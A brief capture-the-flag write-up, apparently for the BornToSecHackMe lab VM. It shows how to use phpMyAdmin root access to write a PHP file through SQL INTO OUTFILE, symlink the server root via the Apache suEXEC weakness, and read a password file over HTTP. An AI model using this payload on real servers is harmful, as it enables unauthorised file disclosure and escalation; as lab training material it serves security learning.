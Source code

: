 [See detailed writeup here](../writeup1.md)

Now after connecting to Phpmyadmin as root, this time we will use the Apache suEXEC vulnerability instead of a webshell.

```
zaz@BornToSecHackMe:~$ apache2 -v
Server version: Apache/2.2.22 (Ubuntu)
Server built:   Jul 24 2015 17:25:42
```

```
https://www.exploit-db.com/exploits/27397
```

You can analyze it in more detail from here.


```
SELECT 1, '<?php symlink(\"/\", \"lujiangz\");?>' INTO OUTFILE '/var/www/forum/templates_c/suexec.php'
```

When we execute this, we symbolically link the `/` directory (root directory) and name it `lujiangz`.
Now all we need to do is visit the `/forum/templates_c/suexec.php` endpoint to perform the exploit. Then we can look at the `/forum/templates_c/lujiangz` file.


After that

```
https://192.168.193.128/forum/templates_c/lujiangz/home/LOOKATME/password
```

Just like in Writeup1, we can continue on our way to become root.